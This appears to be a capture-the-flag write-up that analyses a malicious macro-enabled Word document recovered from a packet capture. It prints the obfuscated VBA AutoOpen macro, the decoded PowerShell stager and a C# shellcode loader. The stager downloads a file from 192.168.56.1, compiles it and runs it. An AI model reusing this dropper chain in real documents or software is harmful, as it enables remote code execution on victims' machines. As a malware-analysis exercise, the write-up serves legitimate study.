





# Free flag - writeup
## Analyzing the PCAP file
When you open the challenge.pcapng, along with all the TCP trafic, you can see two files being downloaded - freeflag.docm, and d9d9dec9d5d2.

You can save them by going to File > Export Objects > HTTP in Wireshark


## Analyzing the freeflag.docm file
### Extracting the macro from the Word ducoument
As this is a macro enabled document, you can view the attached script by going to View > Macros:

Alternatively, you can use tools like [olevba](https://www.decalage.info/python/olevba) to extract macro without opening the docm file.
### Analyzing VBA code
This is the macro code:
```vba
Function XUX8BlCUMq5KoK8(lXKWfCUl1zmltYi() As Byte) As Byte()
    Dim EMtQJsAKYNXvFOd() As Byte
    ReDim EMtQJsAKYNXvFOd(UBound(lXKWfCUl1zmltYi))
    Dim nF7o4G7ab45k7fe(4) As Byte
    nF7o4G7ab45k7fe(0) = 222
    nF7o4G7ab45k7fe(1) = 173
    nF7o4G7ab45k7fe(2) = 190
    nF7o4G7ab45k7fe(3) = 239
    Dim HSnocyKymDfeVtw As Long
    For HSnocyKymDfeVtw = LBound(lXKWfCUl1zmltYi) To UBound(lXKWfCUl1zmltYi)
        EMtQJsAKYNXvFOd(HSnocyKymDfeVtw) = lXKWfCUl1zmltYi(HSnocyKymDfeVtw) Xor nF7o4G7ab45k7fe(HSnocyKymDfeVtw Mod 4) Xor &HBB
    Next HSnocyKymDfeVtw
    XUX8BlCUMq5KoK8 = EMtQJsAKYNXvFOd
End Function

Function BBjijsT7pS60iwZ(str As String) As Byte()
    Dim nrKM9I07nhiFKOO() As String
    Dim GHebfca2sCJaoCG() As Byte
    Dim vgrs5jtmF1aXSJF As Long
    nrKM9I07nhiFKOO = Split(str, ",")
    ReDim GHebfca2sCJaoCG(LBound(nrKM9I07nhiFKOO) To UBound(nrKM9I07nhiFKOO))
    For vgrs5jtmF1aXSJF = LBound(nrKM9I07nhiFKOO) To UBound(nrKM9I07nhiFKOO)
        GHebfca2sCJaoCG(vgrs5jtmF1aXSJF) = CByte(Trim(nrKM9I07nhiFKOO(vgrs5jtmF1aXSJF)))
    Next vgrs5jtmF1aXSJF

    BBjijsT7pS60iwZ = GHebfca2sCJaoCG
End Function

Sub AutoOpen()
Dim TP2lyf5wJk5RfdK As InlineShape
Set TP2lyf5wJk5RfdK = ActiveDocument.InlineShapes(1)
Dim ovVApsD7tsHJaAV() As Byte
ovVApsD7tsHJaAV = BBjijsT7pS60iwZ(TP2lyf5wJk5RfdK.AlternativeText)
KKPSYRKShOsPgGt = XUX8BlCUMq5KoK8(ovVApsD7tsHJaAV)
Dim txsptBa4S5TwPSY As String
txsptBa4S5TwPSY = StrConv(KKPSYRKShOsPgGt, vbUnicode)
Dim o4LCufGQYESakcZ As Object
Set o4LCufGQYESakcZ = CreateObject("WScript.Shell")
o4LCufGQYESakcZ.Run txsptBa4S5TwPSY, 0, True
End Sub
```
The script does three things:
1. Gets data from the alternate text of the first image in the document and converts it to a byte array:
```
Set TP2lyf5wJk5RfdK = ActiveDocument.InlineShapes(1)
Dim ovVApsD7tsHJaAV() As Byte
ovVApsD7tsHJaAV = BBjijsT7pS60iwZ(TP2lyf5wJk5RfdK.AlternativeText)
```
2. Decrypts the data and saves it to a string:
```
KKPSYRKShOsPgGt = XUX8BlCUMq5KoK8(ovVApsD7tsHJaAV)
Dim txsptBa4S5TwPSY As String
txsptBa4S5TwPSY = StrConv(KKPSYRKShOsPgGt, vbUnicode)
```
3. Creates the shell object and executes command contained in the string:
```
Dim o4LCufGQYESakcZ As Object
Set o4LCufGQYESakcZ = CreateObject("WScript.Shell")
o4LCufGQYESakcZ.Run txsptBa4S5TwPSY, 0, True
```
### Extracting the shell command
You can either get the bytes yourself and write a decryption script, or you can modify the macro to save the decrypted string to a file.
#### Manual decryption
1. Get the alternate text:

2. Decrypt it with a XOR key
```python
>> from pwn import *
>> a = [<alternate text>]
>> xor(a, xor(b"\xde\xad\xbe\xef", 0xBB)).decode()
```
#### Writing command to a file
Replace last line of the subroutine with following:
```
Open "<your file path>" For Output As #1
Print #1, txsptBa4S5TwPSY
Close #1
```
Both approaches should output the command:
```powershell
powershell -Command "Invoke-Command -ScriptBlock {$6gYiBaJnTQcMARy = \\"192.168.56.1\\";$DBFwswhgYKnCwxJ = (123974 - 152030 + 28874 + 519);$GPmlM4I7LVSUO9t = (\\"{3}{1}{4}{5}{0}{2}\\"-f\'d5\',\'d9\',\'d2\',\'d9\',\'de\',\'c9\');$98UxWBU8aY4OJFJ = [System.Text.Encoding]::UTF8;function MB9ERVf9riNRmuw {param ([byte[]] $tjjm1xYg4zJinVI);$DXRDV3GJeE7gone = New-Object byte[] $tjjm1xYg4zJinVI.Length;$t5wJRYluj7d0ieV = 13;for ($UGDhhObqc1FJ1Vk = 0; $UGDhhObqc1FJ1Vk -lt $tjjm1xYg4zJinVI.Length;$UGDhhObqc1FJ1Vk++) {$DXRDV3GJeE7gone[$UGDhhObqc1FJ1Vk] = $tjjm1xYg4zJinVI[$UGDhhObqc1FJ1Vk] -bxor $t5wJRYluj7d0ieV;$t5wJRYluj7d0ieV = $t5wJRYluj7d0ieV -bxor 37 -bxor ($UGDhhObqc1FJ1Vk % 0xBB) };return $DXRDV3GJeE7gone};[byte[]] $FFpqmSFabhns282 = 67,58,92,87,105,110,100,111,119,115,92,77,105,99,114,111,115,111,102,116,46,78,69,84,92,70,114,97,109,101,119,111,114,107;$XqpH6qchzQzxaIl = (gci ($98UxWBU8aY4OJFJ.GetString($FFpqmSFabhns282)) -R -Fi (\\"{4}{6}{1}{3}{5}{2}{0}\\" -f \'e\',\'c\',\'x\',\'.\',\'c\',\'e\',\'s\'));if ($null -eq $XqpH6qchzQzxaIl.Exists) {exit} else {$XqpH6qchzQzxaIl = $XqpH6qchzQzxaIl.FullName};$TYVxBiSN7LYP1B3 = (iwr \\"${6gYiBaJnTQcMARy}:${DBFwswhgYKnCwxJ}/${GPmlM4I7LVSUO9t}\\" -UseBasicParsing).Content;$TYVxBiSN7LYP1B3 = MB9ERVf9riNRmuw $TYVxBiSN7LYP1B3;$6fNCDEaFmB9lcOg = \\"${Env:TEMP}\\ea98cjme\\";$FbPIDO60oanqD7k = \\"/out:${Env:TEMP}\\ea98cjme.exe\\";Set-Content -Path $6fNCDEaFmB9lcOg -Value $TYVxBiSN7LYP1B3 -Encoding Byte -NoNewline;& $XqpH6qchzQzxaIl $FbPIDO60oanqD7k $6fNCDEaFmB9lcOg;& \\"${Env:TEMP}\\ea98cjme.exe\\";rm $6fNCDEaFmB9lcOg}"
```
## Analyzing the PowerShell script
After the deobfuscation, the code can look close to this:
```powershell
$ip = "192.168.56.1"
$port = 1337
$filename = "d9d9dec9d5d2"

function Decrypt {
    param (
        [byte[]] $buffer
    )
    $out = New-Object byte[] $buffer.Length
    $xor_key = 13
    for ($i = 0; $i -lt $buffer.Length;$i++) {
        $out[$i] = $buffer[$i] -bxor $xor_key
        $xor_key = $xor_key -bxor 37 -bxor ($i % 0xBB) 
    }
    return $out
}
$cscpath = (gci -Path "C:\Windows\Microsoft.NET\Framework" -Recurse -Filter "csc.exe" -File)
if ($null -eq $cscpath.Exists) {
    exit
} else {
    $cscpath = $cscpath.ToString()
    "${Env:TEMP}" | Out-Default
}
$byteArray = (Invoke-WebRequest -Uri "${ip}:${port}/${filename}" -UseBasicParsing).Content
$byteArray = Decrypt $byteArray
$outpath = "${Env:TEMP}\ea98cjme"
Set-Content -Path "${Env:TEMP}\ea98cjme" -Value $byteArray -AsByteStream -NoNewline
& $cscpath $outpath "/out:${Env:TEMP}\ea98cjme.exe"
& ${Env:TEMP}\ea98cjme.exe
```
It does the following:
1. Checks for the presence of the C# compiler (csc.exe)
2. If present, downloads d9d9dec9d5d2, decrypts it and saves it in the temp director as ea98cjme.
3. It then compiles the file and runs the created executable.
## Extracting and analyzing the C# file
Extraction is nearly the same as in the case of the VBA script. You can either decrypt it manually, or modify the script to do it for you. I will use a python script:
```python
def decrypt(buffer):
    out = []
    xor_key = 13
    for i, byte in enumerate(buffer):
        out.append(byte ^ xor_key)
        xor_key = xor_key ^ 37 ^ (i % 0xBB) 

    return out

with open("d9d9dec9d5d2", "rb") as f:
    enc = f.read()

print(''.join(map(chr, decrypt(enc))))
```
which outputs the following:
```csharp
using System;
using System.Runtime.InteropServices;

class Program
{
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    public static extern bool VirtualFree(IntPtr lpAddress, uint dwSize, uint dwFreeType);
    [DllImport("kernel32.dll")]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out uint lpThreadId);
    [DllImport("kernel32.dll")]
    public static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);
    public static void Main()
    {
        byte[] buf = new byte[] {0xd9,0xec, ... (snipped) ... 0xb7};
        IntPtr allocMemAddress = VirtualAlloc(IntPtr.Zero, (uint)buf.Length, 0x1000 | 0x2000, 0x40);
        Marshal.Copy(buf, 0, allocMemAddress, buf.Length);
        uint threadId;
        IntPtr hThread = CreateThread(IntPtr.Zero, 0, allocMemAddress, IntPtr.Zero, 0, out threadId);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
}
```
You could compile it yourself and run it in a sandbox such as [ANY.RUN](https://any.run/), which will output the flag:


Or, if you correctly assume that buf contains shellcode, you also can simulate its behavior with a tool like [scdbg](http://sandsprite.com/blogs/index.php?uid=7&pid=152), which will also output the flag:
